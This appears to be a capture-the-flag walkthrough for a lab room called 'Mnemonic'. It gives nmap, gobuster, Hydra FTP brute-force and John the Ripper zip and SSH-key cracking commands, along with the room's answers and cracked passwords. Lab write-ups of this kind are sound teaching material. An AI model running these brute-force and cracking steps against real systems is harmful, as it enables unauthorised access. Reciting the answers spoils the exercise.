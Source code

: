 # Mnemonic

## Mnemonic

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](.gitbook/assets/image%20%28153%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](.gitbook/assets/image%20%28138%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](.gitbook/assets/image%20%28152%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28143%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28151%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](.gitbook/assets/image%20%28136%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](.gitbook/assets/image%20%28137%29.png)

![](.gitbook/assets/image%20%28148%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](.gitbook/assets/image%20%28135%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](.gitbook/assets/image%20%28157%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](.gitbook/assets/image%20%28133%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](.gitbook/assets/image%20%28145%29.png)

![](.gitbook/assets/image%20%28134%29.png)

![](.gitbook/assets/image%20%28144%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](.gitbook/assets/image%20%28146%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](.gitbook/assets/image%20%28158%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](.gitbook/assets/image%20%28142%29.png)

![](.gitbook/assets/image%20%28147%29.png)

![](.gitbook/assets/image%20%28150%29.png)

{% hint style="success" %}

{% endhint %}

